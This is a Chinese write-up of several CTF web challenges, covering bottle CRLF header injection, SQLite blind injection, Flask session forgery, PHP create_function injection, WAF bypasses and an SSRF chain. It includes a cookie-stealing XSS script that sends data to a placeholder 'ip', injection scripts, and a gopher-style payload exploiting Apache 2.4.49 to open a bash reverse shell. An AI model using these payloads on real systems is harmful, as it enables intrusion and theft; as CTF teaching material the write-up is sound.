








# 最近做的一些有意思的ctf赛题详细分析-先知社区

> **来源**: https://xz.aliyun.com/news/16242  
> **文章ID**: 16242

---

# 最近做的一些有意思的ctf赛题详细分析

## bottle

### 考察知识

CRLF绕过csp，bottle框架，阻止跳转的方法

### 解题

#### bottle CVE-2016-9964

它是一个轻量级的python web框架，题目和名字描述是一样的，采用的是bottle 框架，框架存在漏洞（CVE-2016-9964），HTTP头注入的问题。  
为了讲清楚这个http头注入的问题，就得了解一下http的head和body是如何划分，我引用p神的一篇文章  
CRLF是”回车 + 换行”（\r\n）的简称。在HTTP协议中，HTTP Header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。  
举个例子，一般网站会在HTTP头中用Location: [http://baidu.com](http://baidu.com/)这种方式来进行302跳转，所以我们能控制的内容就是Location:后面的XXX某个网址。

所以一个正常的302跳转包是这样：

HTTP/1.1 302 Moved Temporarily  
Date: Fri, 27 Jun 2014 17:52:17 GMT  
Content-Type: text/html  
Content-Length: 154  
Connection: close  
Location: [http://www.sina.com.cn](http://www.sina.com.cn/)  
但如果我们输入的是

```
http://www.sina.com.cn%0aSet-cookie:JSPSESSID%3Dwooyun
```

注入了一个换行，此时的返回包就会变成这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://www.sina.com.cn 
Set-cookie: JSPSESSID=wooyun
```

这个时候这样我们就给访问者设置了一个SESSION，造成一个“会话固定漏洞”。

当然，HRS并不仅限于会话固定，通过注入两个CRLF就能造成一个无视浏览器Filter的反射型XSS。

比如一个网站接受url参数<http://test.sina.com.cn/?url=xxx，xxx放在Location后面作为一个跳转。如果我们输入的是：>

```
http://test.sina.com.cn/?url=%0d%0a%0d%0a
```

我们的返回包就会变成这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location:


```

之前说了浏览器会根据第一个CRLF把HTTP包分成头和体，然后将体显示出来。于是我们这里这个标签就会显示出来，造成一个XSS。  
下面回到这个漏洞

#### 复现漏洞简单的代码理解

```
import bottle
from bottle import route, run, template, request, response

@route('/')
def index():
    path = request.query.get('path', 'https://www.leavesongs.com')
    return bottle.redirect(path)

if __name__ == '__main__':
    bottle.debug(True)
    run(host='localhost', port=8081)
```

这里还是使用的redirect，但重申一下这个漏洞和redirect函数没有任何关系。因为redirect函数是向response中插入一个HTTP头，也就是Location: xxx，所以存在头注入。redirect函数有个性质  
其中使用了一个urljoin，将当前url和我传入的path进行了一次"join"，经过这个操作事情就变得很微妙了：Location头一定有一个值。这种情况下，浏览器就不会渲染页面，会直接跳转到Location头指向的地址。也就是说，如果我要利用CRLF构造XSS的话，这里是不会触发的。如果浏览器不解析我构造的东西，那么构造的东西就是无效的。  
所以现在的问题就是不能让其发生跳转，需要让浏览器解析后面我xss的内容

**两种阻止浏览器跳转的方式（均在火狐浏览器进行）**

法1： 将跳转的url端口设为80

法2：使用CSP禁止iframe的跳转

其中的法2利用代码如下：

```
<?php
header("Content-Security-Policy: frame-src http://localhost:8081/");
?>

<iframe src="http://localhost:8081/?path=http://www.baidu.com/%0a%0dX-XSS-Protection:0%0a%0d%0a%0d<script>alert(location.href)</script>"></iframe>

```

明白了上面的知识，再来看看这个题目

```
Not hard, I believe you are the lucky one!
hint1: */3 */10 
hint2: bot use firefoxDriver
URL http://bottle.2018.hctf.io
```

后端是个 python，根据题目可知这个应用使用了 bottle 框架开发。应用功能是提交一个网址。  
我们可以通过path控制localtion  
虽然有csp的限制，但我们可以通过crlf漏洞把它变为body内容失去作用  
**绕过跳转**  
让Location跳转的地址的端口小于0即可，并且这里可以不用理会Content-Length的问题。因为length在我们location的下方，不然难度会大很多  
这里不使用 alert 测试是因为当 URL 中存在引号或括号时会 500，于是将 script 的 src 指向自己服务器的 js 文件即可任意 XSS，最终 payload 如下  
[http://bottle.2018.hctf.io/path?path=http://bottle.2018.hctf.io:0/%0A%0D%0A%0D%3Cscript+src=http://srpopty.cn/1.js%3E%3C/script%3E](http://bottle.2018.hctf.io/path?path=http://bottle.2018.hctf.io:0/)  
1.js文件内容如下

```
var ajax=new XMLHttpRequest();
ajax.open("GET","http://ip/xss/"+document.cookie,true);
ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
ajax.send();
```

拿到cookie修改获得flag

部分内容引自于<https://srpopty.github.io/2018/11/12/HCTF2018-Bottle-Writeup/>

## sql\_by\_sql

### 考察知识

sqlite注入

### 解题

**怎么区分mysql和sqlite**

目前就是#注释符sqlite会报错

**区别**

sqlite和mysql区别不大，不过是一些函数和语法的问题

**函数区别**

目前知道sqlite不能用ord，ascii，left，right，sleep，mid

**语法区别**

```
sqlite的系统表sqlite_master

type    记录项目的类型，如table、index、view、trigger
name    记录项目的名称，如表名、索引名等
tbl_name    记录所从属的表名，如索引所在的表名。对于表来说，该列就是表名本身
rootpage    记录项目在数据库页中存储的编号。对于视图和触发器，该列值为0或者NULL
sql    记录创建该项目的SQL语句
```

一些payload来体会一下

```
query="-1 or substr((select group_concat(name) from sqlite_master),{},1)>'{}'"
query="-1 or substr((select group_concat(sql) from sqlite_master where name='flag'),{},1)>'{}'"
query="-1 or substr((select flag from flag),{},1)='{}'"
query=select sql from sqlite_master where type='table' and name='flag'#爆列
query=select group_concat(name) from sqlite_master where type='table' 来查表名
query=select group_concat(sql) from sqlite_master where type='table' and name='xxxx'来获取建表语句从而得到字段名

```

进入页面是个登录注册，登录成功后还可以改密码，登录admin是显示错误，那很容易判断是个二次注入，而且在修改密码界面源码中有



很明显的是单引号闭合方式

### 修改admin密码

我们创建admin'#的时候取修改竟然报错，说明#注释不了，我们换一种注释符  
--空格成功，这里就需要学到新知识了，sqlite注入，这里不详细将，后面会出文章说明’然后成功进入admin界面



可以查询，我们可以猜测这应该就是注入地方，我们抓包

### 开始注入

#### 判断闭合方式

我们通过1=1和1=2来判断，如果用or前面需要是不在的用户，发现是数字型，  
我们以后就先',数字，"。还不行换方式

#### 选择注入方法

毫无疑问这只能布尔盲注，因为只告诉你正确与否

```
import requests

s = requests.session()
url = "http://node4.anna.nssctf.cn:28658/query"#url头需要query的原因我放在下面
flag = ''
i = 0
headers = {'Cookie': "session=eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Za4eug.KTgSrk0rnWYGt0IhOroUgfBKgo8"}
while True:
    i = i + 1
    Max = 128
    Min = 32
    Mid = (Max + Min) // 2
    while Min < Max:
        #payload=f"-1 or unicode(substr((select group_concat(name) from sqlite_master),{i},1))>{Mid}"
        #payload=f"-1 or unicode(substr((select group_concat(sql) from sqlite_master where name='flag' limit 0,1),{i},1))>{Mid}"
        payload = f"-1 or unicode(substr((select flag from flag),{i},1))>{Mid}"
        data = {
            'id': payload
        }
        r = requests.post(url=url, data=data,headers=headers)
        if "exist" in r.text:
            Min = Mid + 1
            Mid = (Min + Max) // 2
        else:
            Max = Mid
            Mid = (Min + Max) // 2

    flag = flag + chr(Mid)
    print(flag)
```

原脚本加了if Mid == 32:break的判断会导致回显不完全，然后这个cookie很重要，url头需要query的原因我放在下面



## prizep4

### 考察知识

flask的session伪造

### 解题

进入题目随便输入东西后，发现是flask的session伪造，但是需要绕过一个点

```
@app.route('/getkey', methods=["GET"])
def getkey(): 
    if request.method != "GET": 
        session["key"]=SECRET_KEY
```

不能使用get方法，我们改post，put都不allowed，那么更换请求方式如HEAD请求得到session，得到一串jwt字符

使用工具flask\_session



然后再次伪造



得到源码

```
from flask import Flask, request, session, render_template, 
    url_for,redirect,render_template_string
    import base64
    import urllib.request
    import uuid
    import flag 

    SECRET_KEY=str(uuid.uuid4())

    app = Flask(__name__)
    app.config.update(dict(
        SECRET_KEY=SECRET_KEY,
    ))

    #src in /app

    @app.route('/')
    @app.route('/index',methods=['GET'])
    def index():
        return render_template("index.html")

    @app.route('/get_data', methods=["GET",'POST'])
    def get_data():
        data = request.form.get('data', '123')
        if type(data) is str:
            data=data.encode('utf8')
        url = request.form.get('url', 'http://127.0.0.1:8888/')
        if data and url:
            session['data'] = data
            session['url'] = url
            session["admin"]=False
            return redirect(url_for('home'))
        return redirect(url_for('/'))

    @app.route('/home', methods=["GET"])
    def home():
        if session.get("admin",False):
            return render_template_string(open(__file__).read())
        else:
            return render_template("home.html",data=session.get('data','Not find data...'))

    @app.route('/getkey', methods=["GET"])
    def getkey():
        if request.method != "GET":
            session["key"]=SECRET_KEY
        return render_template_string('''@app.route('/getkey', methods=["GET"])
    def getkey():
        if request.method != "GET":
            session["key"]=SECRET_KEY''')

    @app.route('/get_hindd_result', methods=["GET"])
    def get_hindd_result():
        if session['data'] and session['url']:
            if 'file:' in session['url']:
                return "no no no"
            data=(session['data']).decode('utf8')
            url_text=urllib.request.urlopen(session['url']).read().decode('utf8')#urllib.request.urlopen() 函数将会返回一个类似文件的对象，可以通过该对象来读取 URL 的内容。为什么我们不直接传入session，非要在这传入，因为decode('utf8')，这里告诉我们需要传入的是原始数据，所以多了一步get_data取值的步骤
            if url_text in data or data in url_text:
                return "you get it"
        return "what ???"

    @app.route('/getflag', methods=["GET"])
    def get_flag():
        res = flag.waf(request)
        return res

    if __name__ == '__main__':
        app.run(host='0.0.0.0', debug=False, port=8888)
```

审计一下代码  
/home就是我们刚刚验证session的地方

/get\_data是给session的data和url，admin传入参数

/get\_hindd\_result就是读取文件，url为session传的url，获取页面数据和传入的data做比较，如果有返回you get it，没有就what???，但是过滤了file，很明显的利用file协议去读文件，大写即可绕过  
思考一下读什么文件，我们可以看到引入了flag，那其实一定有文件flag.py  
不过看wp都说不好读，读的是环境变量里的`proc/self/environ`  
下面开始写脚本

```
import string#引入string，方便写list
import requests

url1="http://node4.anna.nssctf.cn:28831/get_data"
url2="http://node4.anna.nssctf.cn:28831/get_hindd_result"
flag="NSSCTF{"
while 1:
    for i in string.printable:
        tmp_flag=flag+i
        data={"url":"File:///proc/self/environ","data":tmp_flag}
        res=requests.session()#获取session的对话
        res.get(url1,data=data)#给session的url和data赋值
        session_tmp=str(res.cookies.values())[2:-2]#res.cookies.values() 返回的是一个 cookies 值的列表。打印出来的值是有['值']，我们只需要值，要进行切片操作，但是必须转化为字符才能截取字符，不然默认为列表切片
        flag_resp=requests.get(url2,cookies={"session":session_tmp})#给cookie赋值，因为读文件是从session取值的
        if "you get it" in flag_resp.text:
            flag+=i
            print(flag)
            break
```

运行得到flag

### CanCanNeed

### 考察知识

createfunction命令执行和rce绕过

### 解题

```
<?php
class Noteasy{
    protected $param1;
    protected $param2;

    function __destruct(){
        $a=$this->param1;
        $b=$this->param2;
        if(preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\*|\||\<|\"|\'|\=|\?|sou|\.|log|scan|chr|local|sess|b2|id|show|cont|high|reverse|flip|rand|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|y2f/i', $this->param2)) { 
            die('this param is error!'); 
        } else { 
            $a('', $b); 
        }
    }

}
if (!isset($_GET['file'])){    
    show_source('index.php');
    echo "Hi!Welcome to FSCTF2023!";
  }
  else{ 
    $file=base64_decode($_GET['file']); 
    unserialize($file); }
?>
```

明显的create注入，但是\*被过滤，那就//注释替换

然后很多过滤，但是竟然没有过滤system

那就是命令设置为"}system($\_GET[1]);//";，细节就是不需要system不需要'包裹，必须双引号闭合，编码一次就够了

然后不能执行phpinfo，

当然如果过滤了system，我们可以文件包含配合伪协议

```
require(base64_decode(ZmlsZTovLy9mbGFn));
//require(file:///flag)

```

## PYRCE

### 考察知识

RCE绕过之/过滤,;过滤,cp获得flag,tar获得flag

### 解题

直接获取到源码

```
from flask import Flask, request, make_response 
import uuid 
import os 
# flag in /flag 
app = Flask(__name__) 
def waf(rce): 
    black_list = '01233456789un/|{}*!;@#\n`~\'\"><=+-_ ' 
    for black in black_list: 
        if black in rce: 
            return False 
    return True 

@app.route('/', methods=['GET']) 
def index(): 
    if request.args.get("Ňśś"): 
        nss = request.args.get("Ňśś") 
        if waf(nss): 
            os.popen(nss) 
        else: 
            return "waf" 
return "/source" 

@app.route('/source', methods=['GET']) 
def source(): 
    src = open("app.py", 'rb').read() 
    return src 

if __name__ == '__main__': 
    app.run(host='0.0.0.0', debug=False, port=8080)
```

就是一个绕过waf的rce，很麻烦的就是;和/被过滤，我们可以用cd代替，还有个很麻烦的点就是我们只能看到source的内容

#### 重点

重点就是对payload的理解，先放payload

##### 法一

```
cp $(cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&echo$(pwd)flag) app.py
cp file.txt file_backup.txt
```

这个命令将 file.txt 复制到同一目录下的一个名为 file\_backup.txt 的新文件中。  
&&是等同于；

$() 是命令替换（Command Substitution）的一种语法。它允许将一个命令的输出结果嵌入到另一个命令或表达式中。  
content=$(cat file.txt)  
在这个例子中，$(cat file.txt) 部分将执行 cat file.txt 命令并获取其输出（文件的内容），然后将该输出赋值给变量 content。

```
cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&确保返回到根目录，就尽量多点
echo$(pwd)flag得到/flag又用$()则$(cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&cd ..&&echo$(pwd)flag)结果就是/flag
```

整个命令就是cp /flag app.py就是复制flag的内容到app.py里面  
最后访问app.py得到flag，当然app.py是访问不到的，直接去source就行了，因为我们之前看到source里面就是app.py的内容，为什么不直接把内容复制到source里面，因为source有u，被过滤了

##### 法二

```
mkdir%09static
tar%09czf%09static$(cd%09..%26%26cd%09..%26%26cd%09..%26%26pwd)flag.tar.gz%09$(cd%09..%26%26cd%09..%26%26cd%09..%26%26pwd)flag
//等效于tar czf static/flag.tar.gz /flag
然后访问./static/flag.tar.gz下载flag
```

static 目录是用来存放静态资源的

tar 是 Linux 中的一个命令，用于创建和提取归档文件（archive files）。  
c 选项表示创建一个新的归档文件。  
z 选项表示使用 gzip 压缩算法对归档文件进行压缩。  
f 选项后面跟着一个文件名，表示将归档文件输出到指定的文件中。  
static/flag.tar.gz 是输出的归档文件的路径和文件名。这里的 static/ 表示将归档文件存储在当前目录下的 static 目录中，flag.tar.gz 是归档文件的名称。  
/flag 是要归档的目标文件或目录的路径。在这个例子中，/flag 表示根目录下的 flag 文件或目录。  
因此，该命令的作用是将根目录下的 flag 文件或目录打包成一个经过 gzip 压缩的归档文件，并将其保存为 static/flag.tar.gz。

## [CISCN 2019华东南]Web4

### 考察内容

伪随机数

flask的session伪造

file协议的绕过

### 解题

进入题目点击链接后直接跳到百度了，毫无疑问，ssrf，而且参数都给了url，尝试file读取文件，你妹，file被禁了应该，怎么办，绕一绕，绕半天绕不过，也没心情想，直接wp，发现™的根本不需要file，直接读就完事了!  


然后就读一下源码，因为这个web程序是python写的，一般都在app/app.py  
果然如此读到源码

```
# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! <a href="/read?url=https://baidu.com">Read somethings</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
    return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

一目了然if session and session['username'] == 'fuck':，需要控制session，然后又给了key的获取方法

```
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
```

uuid.getnode() 会返回一个唯一的标识符（UUID）作为种子，该标识符通常基于计算机的 MAC 地址，我们就去读mac地址url=/sys/class/net/eth0/address`读到`02:42:ac:02:3c:1d  
那我们的种子就是0x0242ac023c1d，然后有一个重点就是python2和python3不一样，这题是2，我们需要用python2去找之后数



获得之后我们就得到key，之后就是伪造session了



然后我们访问flag，修改cookie就得到了flag

### 反思

file协议绕过不了尝试直接读取，或者直接local\_file一样的

## MyBox

### 考察知识

file协议

gopher协议

Apache/2.4.49

### 解题

看到有个url参数

猜测这里存在SSRF漏洞。尝试伪协议读取`/etc/passwd`，成功，存在SSRF。

```
/?url=file:///etc/passwd

```

一：读取环境变量`/proc/1/environ`，获得flag。（非预期）

```
/?url=file:///proc/1/environ

```

二：读取start.sh

```
/?url=file:///start.sh

```

发现源码路径读取源码

读取源码：`/?url=file:///app/app.py`

```
from flask import Flask, request, redirect
    import requests, socket, struct
    from urllib import parse
    app = Flask(__name__)

    @app.route('/')
    def index():
        if not request.args.get('url'):
            return redirect('/?url=dosth')
        url = request.args.get('url')
        if url.startswith('file://'):
            with open(url[7:], 'r') as f:
                return f.read()
        elif url.startswith('http://localhost/'):
            return requests.get(url).text
        elif url.startswith('mybox://127.0.0.1:'):
            port, content = url[18:].split('/_', maxsplit=1)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(5)
            s.connect(('127.0.0.1', int(port)))
            s.send(parse.unquote(content).encode())
            res = b''
            while 1:
                data = s.recv(1024)
                if data:
                    res += data
                else:
                    break
            return res
        return ''

    app.run('0.0.0.0', 827)

```

这是一个使用 Flask 框架编写的简单服务器应用。它的功能包括根据传入的 URL 参数进行不同的操作。

* 如果 URL 参数中没有指定 ‘url’，则重定向到 ‘/?url=dosth’。
* 如果 URL 以 ‘file://’ 开头，则根据文件路径读取文件内容并返回。
* 如果 URL 以 ‘<http://localhost/’> 开头，则使用 requests 库发送 GET 请求并返回响应的文本内容。
* 如果 URL 以 ‘mybox://127.0.0.1:’ 开头，则将剩余部分分割为端口和内容，使用 socket 连接到本地主机（127.0.0.1）的指定端口，并发送解码后的内容，然后接收并返回响应的内容。

如果我们需要探测内网的东西，那据需要gopher协议，这里换成了mybox协议，我们一样的，只需要改就好了。

问题是我们要什么东西呢

我们先随便去打一下

```
import urllib.parse
    test =\
    """GET /xxx.php HTTP/1.1
    Host: 127.0.0.1:80
    """
    #注意后面一定要有回车，回车结尾表示http请求结束

        tmp = urllib.parse.quote(test)
        new = tmp.replace('%0A','%0D%0A')
        result = 'gopher://127.0.0.1:80/'+'_'+new
        print(result)
```

得到

```
gopher://127.0.0.1:80/_GET%20/xxx.php%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%3A80%0D%0A%0D%0A

但是代码修改过，我们需要利用mybox进行交互而不是gopher，修改一下 

mybox://127.0.0.1:80/_GET%20/xxx.php%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%3A80%0D%0A%0D%0A


这里注意一下，是需要二次URL编码的 

mybox://127.0.0.1:80/_GET%2520/xxx.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250A%250D%250

```

我们就可以执行命令

```
import urllib.parse
    payload =\
    """POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
    Host: 127.0.0.1:80
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 58
    echo;bash -c 'bash -i >& /dev/tcp/ip/ports 0>&1'  //填入攻击机ip端口
    """
    #注意后面一定要有回车，回车结尾表示http请求结束。
    tmp = urllib.parse.quote(payload)
    new = tmp.replace('%0A','%0D%0A')
    result = 'gopher://127.0.0.1:80/'+'_'+new
    result = urllib.parse.quote(result)
    print(result) 

      # 这里因为是GET请求发包所以要进行两次url编码
 得到：

    gopher%3A//127.0.0.1%3A80/_POST%2520/cgi-bin/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/bin/sh%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252058%250D%250A%250D%250Aecho%253Bbash%2520-c%2520%2527bash%2520-i%2520%253E%2526%2520/dev/tcp/ip/ports%25200%253E%25261%2527%250D%250A

记得修改为mybox 

    mybox%3A//127.0.0.1%3A80/_POST%2520/cgi-bin/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/.%2525%252532%252565/bin/sh%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252058%250D%250A%250D%250Aecho%253Bbash%2520-c%2520%2527bash%2520-i%2520%253E%2526%2520/dev/tcp/ip/ports%25200%253E%25261%2527%250D%250A

```

传参成功进行反弹shell 找到flag

参考<https://blog.csdn.net/Leaf_initial/article/details/132633048>

### 反思

file一般会去读哪些文件？ gopher伪协议在这里探测内网可以干嘛，ssrf题目的思路一般离不开gopher协议
